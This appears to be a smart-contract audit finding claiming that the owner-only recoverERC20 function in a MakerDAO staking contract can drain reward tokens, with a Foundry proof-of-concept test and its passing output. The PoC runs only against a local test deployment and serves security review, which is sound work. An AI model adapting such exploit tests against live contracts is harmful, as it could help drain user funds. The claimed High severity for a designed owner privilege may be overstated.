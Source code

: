 Curved Cinnamon Tuna

High

# Unauthorized Token Recovery via recoverERC20 Function

## Summary
The `recoverERC20` function allows the contract owner to recover any ERC20 token from the contract, except the staking token. While this is useful for recovering mistakenly sent tokens, it can be misused by a malicious to withdraw important tokens, potentially harming the users and the integrity of the contract.

## Vulnerability Detail
1. Initial State:
- The contract holds a significant amount of ERC20 tokens, intended for user rewards or other purposes.
- Users have staked their tokens and are expecting to receive rewards.
2. Malicious Action:
- The owner, either maliciously or due to a compromised private key, decides to exploit the `recoverERC20` function.
- The owner calls `recoverERC20` with the address of a valuable ERC20 token and the amount to transfer.
3. Execution:
- The `recoverERC20` function executes successfully, transferring the specified ERC20 tokens from the contract to the owner's address.
- Example: 
```solidity
stakingRewards.recoverERC20(address(rewardToken), rewardToken.balanceOf(address(stakingRewards)));
```
4. Depletion of Contract Funds:
- The contract's balance of the specified ERC20 tokens is depleted.
- Users who were expecting rewards or other distributions from these tokens are now left without their expected returns.

## Impact
- Financial Loss
- Erosion of Trust

## Code Snippet
https://github.com/sherlock-audit/2024-06-makerdao-endgame/blob/main/endgame-toolkit/src/synthetix/StakingRewards.sol#L166-L170

## Tool used

Manual Review

## Recommendation
- Implement role-based access control to restrict who can call `recoverERC20`.
- Introduce a time-lock mechanism to delay the execution of the `recoverERC20` function.
- Require multiple signatures from trusted parties before executing the `recoverERC20` function
- Implement monitoring and alert systems to detect and notify about any `recoverERC20` function calls.

## PoC
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.25;

import "forge-std/Test.sol";
import "openzeppelin-contracts/token/ERC20/ERC20.sol";
import "../src/synthetix/StakingRewards.sol";

// Custom ERC20 token with mint function
contract CustomERC20 is ERC20 {
    constructor(string memory name, string memory symbol) ERC20(name, symbol) {}

    function mint(address to, uint256 amount) external {
        _mint(to, amount);
    }
}

contract ExploitTest is Test {
    CustomERC20 rewardToken;
    CustomERC20 stakingToken;
    StakingRewards stakingRewards;
    address owner = address(0x1);
    address rewardsDistribution = address(0x2);
    address attacker = address(0x3);
    address user = address(0x4);

    function setUp() public {
        // Deploy custom ERC20 tokens
        rewardToken = new CustomERC20("Reward Token", "RWT");
        stakingToken = new CustomERC20("Staking Token", "STK");

        // Mint tokens
        rewardToken.mint(owner, 1000 ether);
        stakingToken.mint(user, 1000 ether);

        // Deploy StakingRewards contract
        stakingRewards = new StakingRewards(owner, rewardsDistribution, address(rewardToken), address(stakingToken));

        // Transfer reward tokens to staking contract
        vm.startPrank(owner);
        rewardToken.transfer(address(stakingRewards), 1000 ether);
        vm.stopPrank();

        // User stakes tokens
        vm.startPrank(user);
        stakingToken.approve(address(stakingRewards), 1000 ether);
        stakingRewards.stake(100 ether);
        vm.stopPrank();
    }

    function testExploit() public {
        // Simulate the owner calling recoverERC20
        vm.startPrank(owner);
        stakingRewards.recoverERC20(address(rewardToken), rewardToken.balanceOf(address(stakingRewards)));
        vm.stopPrank();

        // Verify that the contract's reward token balance is zero
        assertEq(rewardToken.balanceOf(address(stakingRewards)), 0);

        // Verify that the owner's reward token balance has increased
        assertEq(rewardToken.balanceOf(owner), 1000 ether);

        // Verify that the user's expected rewards are now zero
        assertEq(stakingRewards.earned(user), 0);

        // If all assertions pass, the test will pass
    }
}
```
forge test --match-path test/ExploitTest.sol
[⠒] Compiling...
[⠊] Compiling 1 files with Solc 0.8.25
[⠒] Solc 0.8.25 finished in 1.85s
Compiler run successful!

Ran 1 test for test/ExploitTest.sol:ExploitTest
[PASS] testExploit() (gas: 71295)
Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 22.75ms (8.98ms CPU time)

Ran 1 test suite in 23.81ms (22.75ms CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)

